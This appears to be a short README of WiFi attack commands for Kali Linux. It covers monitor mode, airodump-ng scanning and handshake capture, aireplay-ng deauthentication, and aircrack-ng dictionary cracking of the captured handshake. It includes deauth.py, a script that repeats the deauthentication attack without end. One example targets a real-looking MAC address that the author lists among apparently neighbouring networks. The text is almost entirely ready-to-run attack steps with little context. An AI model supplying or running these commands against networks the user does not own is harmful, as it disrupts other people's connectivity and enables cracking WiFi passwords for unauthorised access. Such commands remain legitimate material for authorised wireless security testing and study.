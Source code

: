 
### Available channel list

``` bash
┌──(kali㉿kali)-[~]
└─$ iwlist channel
lo        no frequency information.

eth0      no frequency information.

eth1      no frequency information.

wlan0     32 channels in total; available frequencies :
          Channel 01 : 2.412 GHz
          Channel 02 : 2.417 GHz
          Channel 03 : 2.422 GHz
          Channel 04 : 2.427 GHz
          Channel 05 : 2.432 GHz
          Channel 06 : 2.437 GHz
          Channel 07 : 2.442 GHz
          Channel 08 : 2.447 GHz
          Channel 09 : 2.452 GHz
          Channel 10 : 2.457 GHz
          Channel 11 : 2.462 GHz
          Channel 12 : 2.467 GHz
          Channel 13 : 2.472 GHz
          Channel 14 : 2.484 GHz
          Channel 36 : 5.18 GHz
          Channel 40 : 5.2 GHz
          Channel 44 : 5.22 GHz
          Channel 48 : 5.24 GHz
          Channel 52 : 5.26 GHz
          Channel 56 : 5.28 GHz
          Channel 60 : 5.3 GHz
          Channel 64 : 5.32 GHz
          Channel 100 : 5.5 GHz
          Channel 104 : 5.52 GHz
          Channel 108 : 5.54 GHz
          Channel 112 : 5.56 GHz
          Channel 116 : 5.58 GHz
          Channel 120 : 5.6 GHz
          Channel 124 : 5.62 GHz
          Channel 128 : 5.64 GHz
          Channel 132 : 5.66 GHz
          Channel 136 : 5.68 GHz
          Current Frequency:2.447 GHz (Channel 8)
```


### Enable monitor mode
``` bash
sudo ifconfig wlan0 down
# sudo airmon-ng check kill
sudo airmon-ng start wlan0
```


### Set Channel

``` bash
sudo iw dev wlan0mon set channel 8
```


### Airodump-ng scanning
``` bash
sudo airodump-ng wlan0mon

# 5GHz capture
airodump-ng --band a wlan0mon

# ex)
# 70:5D:CC:65:45:C2 - 305
# 88:36:6C:90:F4:DE - Iptime
# 70:5D:CC:6C:F2:80 - O
# 70:5D:CC:8A:A2:7E - iptime
# 80:4E:81:0A:75:83 - my phone
```


### Save traffic packets
``` bash
sudo airodump-ng --bssid 00:00:00:00:00:00 -w filename wlan0mon
```


### Execute aireplay-ng
``` bash
sudo aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon

# ex)
# sudo aireplay-ng --deauth 100 -a 70:5D:CC:65:45:C2 wlan0mon
```

### deauth.py
```python
import os, time

while True:
	os.system("aireplay-ng --deauth 10 -a 00:00:00:00:00:00 wlan0")
	time.sleep(1)

```

```bash
sudo python3 deauth.py
```




### Aireplay-ng error : (wlan0mon is on channel 2, but the AP uses channel 5)
``` bash
sudo airmon-ng start wlan0mon 5
sudo iwconfig wlan0mon channel 5
```



### Cracking password
``` bash
sudo aircrack-ng filename.cap -w dict.lst
```

---

#### Reference

- https://deliberate-practice.tistory.com/48

